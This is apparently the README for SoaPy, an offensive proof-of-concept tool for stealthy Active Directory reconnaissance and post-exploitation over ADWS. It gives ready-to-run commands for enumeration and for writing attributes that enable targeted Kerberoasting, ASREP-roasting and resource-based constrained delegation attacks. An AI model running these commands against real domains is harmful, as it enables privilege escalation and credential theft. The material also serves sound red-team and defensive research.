 # Description
SoaPy is a Proof of Concept (PoC) tool for conducting offensive  interaction with Active Directory Web Services (ADWS) from Linux hosts. SoaPy includes previously undeveloped custom python implementations of a collection of Microsoft protocols required for interaction with the ADWS service. This includes but is not limited to: NNS (.NET NegotiateStream Protocol), NMF (.NET Message Framing Protocol), and NBFSE (.NET Binary Format: SOAP Extension).

SoaPy can be primarily utilized to interact with ADWS for stealthy recon over a proxy into an internal Active Directory environment. Additionally SoaPy can perform targeted DACL-focused post-exploitation over ADWS, including `servicePrincipalName` writing for targeted Kerberoasting, `DON’T_REQ_PREAUTH` writing for targeted ASREP-Roasting, and the ability to write to `msDs-AllowedToActOnBehalfOfOtherIdentity` for Resource-Based Constrained Delegation attacks. 

The protocol structure for interacting with ADWS is shown below:
![image](https://github.com/user-attachments/assets/e83a3e60-7aaf-4084-bcab-41e400d4055e)

The blog detailing the original research largely from an engineering perspective can be found [here](https://www.ibm.com/think/x-force/stealthy-enumeration-of-active-directory-environments-through-adws)

# Usage
```
███████╗ ██████╗  █████╗ ██████╗ ██╗   ██╗
██╔════╝██╔═══██╗██╔══██╗██╔══██╗╚██╗ ██╔╝
███████╗██║   ██║███████║██████╔╝ ╚████╔╝ 
╚════██║██║   ██║██╔══██║██╔═══╝   ╚██╔╝  
███████║╚██████╔╝██║  ██║██║        ██║   
╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝        ╚═╝   

@_logangoins
github.com/jlevere  
          
usage: soapy [-h] [--debug] [--ts] [-H nthash] [--users] [--computers] [--groups] [--constrained]
             [--unconstrained] [--spns] [--asreproastable] [--admins] [--rbcds] [-q query] [-f attr,attr,...]
             [-dn distinguishedname] [-p] [--rbcd source] [--spn value] [--asrep] [--account account] [--remove]
             connection

Perform AD reconnaisance and post-exploitation through ADWS from Linux

positional arguments:
  connection            domain/username[:password]@<targetName or address>

options:
  -h, --help            show this help message and exit
  --debug               Turn DEBUG output ON
  --ts                  Adds timestamp to every logging output.
  -H, --hash nthash     Use an NT hash for authentication

Enumeration:
  --users               Enumerate user objects
  --computers           Enumerate computer objects
  --groups              Enumerate group objects
  --constrained         Enumerate objects with the msDS-AllowedToDelegateTo attribute set
  --unconstrained       Enumerate objects with the TRUSTED_FOR_DELEGATION flag set
  --spns                Enumerate accounts with the servicePrincipalName attribute set
  --asreproastable      Enumerate accounts with the DONT_REQ_PREAUTH flag set
  --admins              Enumerate high privilege accounts
  --rbcds               Enumerate accounts with msDs-AllowedToActOnBehalfOfOtherIdentity set
  -q, --query query     Raw query to execute on the target
  -f, --filter attr,attr,...
                        Attributes to select from the objects returned, in a comma seperated list
  -dn, --distinguishedname distinguishedname
                        The root objects distinguishedName for the query
  -p, --parse           Parse attributes to human readable format

Writing:
  --rbcd source         Operation to write or remove RBCD. Also used to pass in the source computer account used
                        for the attack.
  --spn value           Operation to write the servicePrincipalName attribute value, writes by default unless "
                        --remove" is specified
  --asrep               Operation to write the DONT_REQ_PREAUTH (0x400000) userAccountControl flag on a target
                        object
  --account account     Account to preform an operation on
  --remove              Operarion to remove an attribute value based off an operation
```

# Installation
With `pipx`:
```
pipx install .
```


With `poetry`:
```
poetry install
```

# Example Usage

Enumerate users using preset enumeration flags:
```
soapy <domain>/<user>:'<password>'@<ip> --users
```

Enumerate computers `samAccountName` and `objectSid` using a custom query/attribute filtering:
```
soapy <domain>/<user>:'<password>'@<ip> --query '(objectClass=computer)' --filter "samaccountname,objectsid"
```

Write `msDs-AllowedToActOnBehalfOfOtherIdentity` on DC01, enabling delegation from MS01 for an RBCD attack:
```
soapy <domain>/<user>:'<password>'@<ip> --rbcd 'MS01$' --account 'DC01$'
```

Write the `servicePrincipalName` attribute on jdoe as part of a targeted Kerberoasting attack:
```
soapy <domain>/<user>:'<password>'@<ip> --spn test/spn --account jdoe
```

Write `DONT_REQ_PREAUTH` (0x400000) on jdoe's `userAccountControl` attribute, making the account ASREP-Roastable:
```
soapy <domain>/<user>:'<password>'@<ip> --asrep --account jdoe
```
